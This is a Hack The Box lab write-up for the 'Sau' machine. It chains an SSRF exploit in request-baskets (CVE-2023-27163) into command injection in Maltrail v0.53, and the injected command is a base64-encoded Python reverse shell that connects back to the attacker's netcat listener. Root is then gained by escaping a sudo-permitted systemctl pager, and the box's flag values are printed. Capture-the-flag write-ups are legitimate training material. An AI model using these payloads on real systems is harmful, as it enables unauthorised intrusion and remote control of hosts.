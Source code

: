 HacktheBox Machine
## Enumeration(Recon)
**Nmap**
```terminal
└─# nmap 10.10.11.224
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```
**Second scan**
```terminal
└─# nmap -sV -sC -p22,80,55555 10.10.11.224
Host is up (0.36s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 18 Oct 2023 18:18:16 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 18 Oct 2023 18:17:40 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 18 Oct 2023 18:17:41 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```
As we can see the port 80 is filtered, i visited the port 55555 and found : http://sau.htb:55555/web
in that website i also found : `Powered by request-baskets | Version: 1.2.1`.
I googled that and found a cve. CVE-2023-27163 and : https://github.com/entr0pie/CVE-2023-27163
Easy to run
```terminal
└─# ./CVE-2023-27163.sh http://sau.htb:55555/ http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "ozlhzi" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/ozlhzi now makes the server request to http://127.0.0.1:80.
> Authorization: A4QIc8chm_b3mKbSpry_RhaaJE54RnI6ivRfICOfQHZu
```
When i visited the created basket url. i got other web apps with this : Powered by Maltrail (v0.53) and i searched it on Google.
found : https://www.exploit-db.com/exploits/51676 , https://github.com/spookier/Maltrail-v0.53-Exploit Unauthenticated RCE.
The vulnerability is in the login page(username).
 If we try to run this attack directly on the basket that we created for http://127.0.0.1:80 then it won't work because the attack targets the username parameter of the login page (mentioned in the README). So, we need to first find the login page and then create a basket with the previous CVE that redirects to the Maltrail's login page. Again with some googling, we can find that the login page is simply called login.
 I will use this in burpsuite: 
 Intercept when i create a basket: `POST /api/baskets/dpiv9e4 `
 Now i add
 ```terminal

{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}

 ```
 By exploiting the SSRF vulnerability and sending the required parameters in a POST request to the login route, we will be able to execute commands on the system and eventually escalate privileges.
Then i changed the requested method to GET
```
GET /blomannn?username=%3b`ping+-c+5+10.10.16.41` 
```
and `sudo tcpdump -i tun0` and i got ping response:

## Reverse shell
In burp i changed it, i got shell and encode it in base64
```terminal
GET /blomannn?username=%3b`echo+ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNC4xNjgiO2V4cG9ydCBSUE9SVD0xMzM3O3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn+|base64+-d+|+sh`
```

```terminal
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.168] from (UNKNOWN) [10.10.11.224] 54236
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ 
```
```terminal
puma@sau:~$ cat user.txt
cat user.txt
7ab8c93f5f609b67bf480bb944256eae
puma@sau:~$ 
```
### Escalation
```terminal
puma@sau:~$ sudo -l -l
sudo -l -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:

Sudoers entry:
    RunAsUsers: ALL
    RunAsGroups: ALL
    Options: !authenticate
    Commands:
	/usr/bin/systemctl status trail.service
puma@sau:~$ 
```
first i was looking for sudo privilege escalation and i see this, Now i will search in gtfobins
```terminal
sudo  /usr/bin/systemctl status trail.service
!sh
# id;hostnamectl
id;hostnamectl
uid=0(root) gid=0(root) groups=0(root)
   Static hostname: sau
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 639e21ff5f8845cfa768d4c6f1ed568f
           Boot ID: e9ddadc0bcf2420a8f1128142b598c7f
    Virtualization: vmware
  Operating System: Ubuntu 20.04.6 LTS
            Kernel: Linux 5.4.0-153-generic
      Architecture: x86-64
root :fcfb5f4635f0f18579adcba47f0b6496

```